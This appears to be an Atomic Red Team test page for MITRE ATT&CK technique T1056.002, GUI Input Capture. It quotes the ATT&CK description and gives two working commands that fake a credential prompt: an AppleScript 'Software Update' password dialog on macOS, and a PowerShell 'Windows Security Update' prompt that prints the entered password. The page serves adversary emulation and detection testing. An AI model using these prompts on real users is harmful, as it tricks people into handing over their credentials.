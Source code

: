# T1056.002 - GUI Input Capture
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1056/002)
<blockquote>Adversaries may mimic common operating system GUI components to prompt users for credentials with a seemingly legitimate prompt. When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: OSX Keydnap malware)(Citation: Spoofing credential dialogs) and [PowerShell](https://attack.mitre.org/techniques/T1059/001).(Citation: LogRhythm Do You Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015)(Citation: Spoofing credential dialogs) On Linux systems adversaries may launch dialog boxes prompting users for credentials from malicious shell scripts or the command line (i.e. [Unix Shell](https://attack.mitre.org/techniques/T1059/004)).(Citation: Spoofing credential dialogs) </blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)


<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


**auto_generated_guid:** 76628574-0bc1-4646-8fe2-8f4427b47d15






#### Attack Commands: Run with `bash`! 


```bash
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```






<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT. Upon execution, a window will appear for the user to enter their credentials.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


**auto_generated_guid:** 2b162bfd-0928-4d4c-9ec3-4d9f88374b52






#### Attack Commands: Run with `powershell`! 


```powershell
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```






<br/>
